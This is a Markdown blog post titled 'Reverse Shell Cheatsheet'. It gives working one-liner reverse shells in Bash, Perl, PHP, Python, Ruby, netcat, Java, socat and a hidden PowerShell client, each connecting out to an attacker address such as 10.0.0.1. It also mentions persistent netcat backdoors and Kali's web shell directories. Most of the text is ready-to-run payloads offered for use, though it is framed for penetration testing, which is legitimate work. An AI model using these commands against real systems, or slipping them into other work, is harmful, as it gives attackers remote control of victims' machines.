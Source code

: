 ```yaml
---
published: true
category: Cheatsheet
title: Reverse Shell Cheatsheet
image: https://imgur.com/izNMySh.png
author: F3dai
---
```


When penetration testing, hackers often find themselves in a compromised system with a command execution vulnerability. Whenever the opportunity persists, the attacker must establish a reverse shell. 

A **reverse shell** is an (insecure) shell session which establishes a connection initiated by a remote host. This is a **type** of shell where the attacker may communicate back to the remote host.

The attacking machine essentially acts as a client whilst the remote host acts as the server, creating a communication port on the victim. Once this connection has been established, the attacker can remotely execute commands. 

The attacking machine listens on a port which the connection is established on. 

This article will outline the most common reverse shells that can be used. Depending on what is available on the target system, one of the following scripting languages must be chosen. 

Please refer to the bottom of this page for web shells in Kali Linux.

### Bash

<pre>bash -i >& /dev/tcp/10.0.0.1/8080 0>&1</pre>

### Perl

<pre>perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'</pre>

### PHP 

Please note, this assumes a TCP connection uses file descriptor 3. 

<pre> php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' </pre>

If a .php file is needed for a payload, refer to [this website](https://github.com/pentestmonkey/php-reverse-shell) for some examples. You can also find some in the web shells directory on Kali Linux.

### Python

Python 2.7

<pre> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</pre>

Refer to [this website](https://www.thepythoncode.com/article/create-reverse-shell-python) for more information about python reverse shells.

### Ruby 

<pre>ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'</pre>

### Netcat

If an attacker is lucky enough to find netcat on the compromised system, Netcat can be used to gain a reverse shell. If possible, installing the windows binary nc.exe can allow an attacker a persistent netcat backdoor. Read more about [this here](https://www.offensive-security.com/metasploit-unleashed/persistent-netcat-backdoor/).

<pre>nc -e /bin/sh 10.0.0.1 1234</pre>

If the incorrect version of netcat is installed, this command may be used to get a reverse shell. Please refer to [this website for more information](https://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498).

<pre>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f</pre>

### Java

<pre>r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()</pre>

### Socat 

Attacker:
<pre>socat file:`tty`,raw,echo=0 TCP-L:port</pre>
Client:
<pre>/dev/shm exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ip-address:port</pre>

### Powershell

<pre>powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("ip-address",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()</pre>

### Kali Linux Web Shell Files

Kali Linux has a variety of pre-installed web shells.

<pre>/usr/share/webshells</pre>

The above directory contains files which establish a reverse shell, some of which include:

**php**: /usr/share/webshells/php/

**Perl**: /usr/share/webshells/perl/

**Cold Fusion**: /usr/share/webshells/cfm/

**ASP**: /usr/share/webshells/asp/

**JSP**: /usr/share/webshells/jsp/

This is a screenshot of the directories on my local Kali Linux machine:

![webshells](https://imgur.com/1LQCTZc.png)

